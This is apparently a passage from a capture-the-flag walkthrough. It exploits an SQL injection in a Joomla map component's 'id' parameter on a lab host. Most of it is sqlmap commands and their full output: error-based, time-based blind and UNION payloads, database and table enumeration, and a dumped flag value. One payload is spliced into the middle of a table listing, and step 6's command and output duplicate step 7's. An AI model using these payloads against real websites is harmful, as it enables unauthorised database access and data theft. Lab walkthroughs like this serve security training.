| vbh7c_finder_links_terms6                    |
| vbh7c_finder_links_terms7                    |
| vbh7c_finder_links_terms8                    |
| vbh7c_finder_links_terms9                    |
| vbh7c_finder_links_termsa                    |
| vbh7c_finder_links_termsb                    |
| vbh7c_finder_links_termsc                    |
| vbh7c_finder_links_termsd                    |
| vbh7c_finder_links_termse                    |
| vbh7c_finder_links_termsf                    |
| vbh7c_finder_taxonomy                        |
| vbh7c_finder_taxonomy_map                    |
| vbh7c_finder_terms                           |
| vbh7c_finder_terms_common                    |
| vbh7c_finder_tokens                          |
| vbh7c_finder_tokens_aggregate                |
| vbh7c_finder_types                           |
| vbh7c_languages                              |
| vbh7c_menu                                   |
| vbh7c_menu_types                             |
| vbh7c_messages                               |
| vbh7c_messages_cfg                           |
| vbh7c_modules                                |
| vbh7c_modules_menu                           |
| vbh7c_newsfeeds                              |
| vbh7c_overrider                              |
| vbh7c_postinstall_messages                   |
| vbh7c_redirect_links                         |
| vbh7c_schemas                                |
| vbh7c_session                                |
| vbh7c_tags                                   |
| vbh7c_template_styles                        |
| vbh7c_ucm_base                               |
| vbh7c_ucm_content                            |
| vbh7c_ucm_history                            |
| vbh7c_update_sites                           |
| vbh7c_update_sites_extensions                |
| vbh7c_updates                                |
| vbh7c_user_keys                              |
| vbh7c_user_notes                             |
| vbh7c_user_profiles                          |
| vbh7c_user_usergroup_map                     |
| vbh7c_usergroups                             |
| vbh7c_users                                  |
| vbh7c_utf8_conversion                        |
| vbh7c_viewlevels                             |
| vbh7c_zhyandexmaps_maps                      |
| vbh7c_zhyandexmaps_maptypes                  |
| vbh7c_zhyandexmaps_markergroups              |
| vbh7c_zhyandexmaps_markers                   |
| vbh7c_zhyandexmaps_paths                     |
| vbh7c_zhyandexmaps_routers                   |
+----------------------------------------------+

Database: performance_schema
[17 tables]
+----------------------------------------------+
| cond_instances                               |
| events_waits_current                         |
| events_waits_history                         |
| events_waits_history_long                    |
| events_waits_summary_by_instance             |
| events_waits_summary_by_thread_by_event_name |
| events_waits_summary_global_by_event_name    |
| file_instances                               |
| file_summary_by_event_name                   |
| file_summary_by_instance                     |
| mutex_instances                              |
| performance_timers                           |
| rwlock_instances                             |
| setup_consumers                              |
| setup_instruments                            |
| setup_timers                                 |
| threads                                      |
+----------------------------------------------+

Database: information_schema
[40 tables]
+----------------------------------------------+
| CHARACTER_SETS                               |
| COLLATIONS                                   |
| COLLATION_CHARACTER_SET_APPLICABILITY        |
| COLUMN_PRIVILEGES                            |
| ENGINES                                      |
| EVENTS                                       |
| FILES                                        |
| GLOBAL_STATUS                                |
| GLOBAL_VARIABLES                             |
| Payload:
option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND
(SELECT 6036 FROM(SELECT COUNT(*),CONCAT(0x717a626a71,(SELECT
(ELT(6036=6036,1))),0x716b7a7071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)INNODB_BUFFER_PAGE                           |
| INNODB_BUFFER_PAGE_LRU                       |
| INNODB_BUFFER_POOL_STATS                     |
| INNODB_CMP                                   |
| INNODB_CMPMEM                                |
| INNODB_CMPMEM_RESET                          |
| INNODB_CMP_RESET                             |
| INNODB_LOCKS                                 |
| INNODB_LOCK_WAITS                            |
| INNODB_TRX                                   |
| KEY_COLUMN_USAGE                             |
| PARAMETERS                                   |
| PARTITIONS                                   |
| PLUGINS                                      |
| PROCESSLIST                                  |
| PROFILING                                    |
| REFERENTIAL_CONSTRAINTS                      |
| ROUTINES                                     |
| SCHEMATA                                     |
| SCHEMA_PRIVILEGES                            |
| SESSION_STATUS                               |
| SESSION_VARIABLES                            |
| TABLESPACES                                  |
| TABLE_CONSTRAINTS                            |
| TABLE_PRIVILEGES                             |
| TRIGGERS                                     |
| USER_PRIVILEGES                              |
| VIEWS                                        |
| COLUMNS                                      |
| STATISTICS                                   |
| TABLES                                       |
+----------------------------------------------+

Database: mysql
[24 tables]
+----------------------------------------------+
| db                                           |
| event                                        |
| user                                         |
| columns_priv                                 |
| func                                         |
| general_log                                  |
| help_category                                |
| help_keyword                                 |
| help_relation                                |
| help_topic                                   |
| host                                         |
| ndb_binlog_index                             |
| plugin                                       |
| proc                                         |
| procs_priv                                   |
| proxies_priv                                 |
| servers                                      |
| slow_log                                     |
| tables_priv                                  |
| time_zone                                    |
| time_zone_leap_second                        |
| time_zone_name                               |
| time_zone_transition                         |
| time_zone_transition_type                    |
+----------------------------------------------+
```

Payload:
option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND
(SELECT 6036 FROM(SELECT COUNT(*),CONCAT(0x717a626a71,(SELECT
(ELT(6036=6036,1))),0x716b7a7071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

5. List the databases stored on the MySQL server.

```
sqlmap -u "http://q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com/index.php?option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id --dbs
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:34:31 /2020-04-24/

[00:34:31] [INFO] resuming back-end DBMS 'mysql' 
[00:34:31] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('8e4fce3e05f703d153e8c82f64ff21bb=mm27lr9aoh7...dsa9bij6l0'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b717871,(SELECT (ELT(9902=9902,1))),0x716a6b7071,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 5741 FROM (SELECT(SLEEP(5)))wNHZ)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 50 columns
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b717871,0x4755717a4b6e7a656a7150576d557a57666f4d7857415366696e63727152495a525a6f6163474b4a,0x716a6b7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
[00:34:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[00:34:33] [INFO] fetching database names
[00:34:33] [INFO] resumed: 'information_schema'
[00:34:33] [INFO] resumed: 'app'
[00:34:33] [INFO] resumed: 'mysql'
[00:34:33] [INFO] resumed: 'performance_schema'
available databases [4]:                                                                         
[*] app
[*] information_schema
[*] mysql
[*] performance_schema

[00:34:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com'

[*] ending @ 00:34:34 /2020-04-24/

```

6. List all the tables stored on the “app” database.

```
sqlmap -u "http://q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com/index.php?option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id -D app -T flag --columns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:42:57 /2020-04-24/

[00:42:58] [INFO] resuming back-end DBMS 'mysql' 
[00:42:58] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('8e4fce3e05f703d153e8c82f64ff21bb=bc9n60vo1pl...seu03o8jt0'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b717871,(SELECT (ELT(9902=9902,1))),0x716a6b7071,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 5741 FROM (SELECT(SLEEP(5)))wNHZ)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 50 columns
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b717871,0x4755717a4b6e7a656a7150576d557a57666f4d7857415366696e63727152495a525a6f6163474b4a,0x716a6b7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
[00:43:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[00:43:02] [INFO] fetching columns for table 'flag' in database 'app'
[00:43:02] [WARNING] reflective value(s) found and filtering out
Database: app
Table: flag
[1 column]
+--------+------+
| Column | Type |
+--------+------+
| flag   | text |
+--------+------+

[00:43:02] [INFO] fetched data logged to text files under '/root/.sqlmap/output/q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com'

[*] ending @ 00:43:02 /2020-04-24/

```

7. Identify the name of the columns in flag table.

```
sqlmap -u "http://q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com/index.php?option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id -D app -T flag --columns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:42:57 /2020-04-24/

[00:42:58] [INFO] resuming back-end DBMS 'mysql' 
[00:42:58] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('8e4fce3e05f703d153e8c82f64ff21bb=bc9n60vo1pl...seu03o8jt0'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b717871,(SELECT (ELT(9902=9902,1))),0x716a6b7071,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 5741 FROM (SELECT(SLEEP(5)))wNHZ)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 50 columns
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b717871,0x4755717a4b6e7a656a7150576d557a57666f4d7857415366696e63727152495a525a6f6163474b4a,0x716a6b7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
[00:43:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[00:43:02] [INFO] fetching columns for table 'flag' in database 'app'
[00:43:02] [WARNING] reflective value(s) found and filtering out
Database: app
Table: flag
[1 column]
+--------+------+
| Column | Type |
+--------+------+
| flag   | text |
+--------+------+

[00:43:02] [INFO] fetched data logged to text files under '/root/.sqlmap/output/q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com'

[*] ending @ 00:43:02 /2020-04-24/
```

8. Retrieve the flag.

```
sqlmap -u "http://q5des4mlzso357n42v08t10ed.ctf-singapore.attackdefenselabs.com/index.php?option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123" -p id -D app -T flag -C flag --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:46:42 /2020-04-24/

[00:46:42] [INFO] resuming back-end DBMS 'mysql' 
[00:46:42] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('8e4fce3e05f703d153e8c82f64ff21bb=qu62dvpebtc...4q2hqdvkj0'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716b717871,(SELECT (ELT(9902=9902,1))),0x716a6b7071,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 AND (SELECT 5741 FROM (SELECT(SLEEP(5)))wNHZ)

    Type: UNION query
    Title: MySQL UNION query (NULL) - 50 columns
    Payload: option=com_zhyandexmap&no_html=1&format=raw&task=getPlacemarkDetails&id=123 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b717871,0x4755717a4b6e7a656a7150576d557a57666f4d7857415366696e63727152495a525a6f6163474b4a,0x716a6b7071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#
---
[00:46:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[00:46:45] [INFO] fetching entries of column(s) '`flag`' for table 'flag' in database 'app'
[00:46:45] [WARNING] reflective value(s) found and filtering out
[00:46:46] [INFO] retrieved: '14d17b36b62a66b766d535faab48aeda'
[00:46:46] [INFO] recognized possible password hashes in column '`flag`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 

```

**Flag: 14d17b36b62a66b766d535faab48aeda**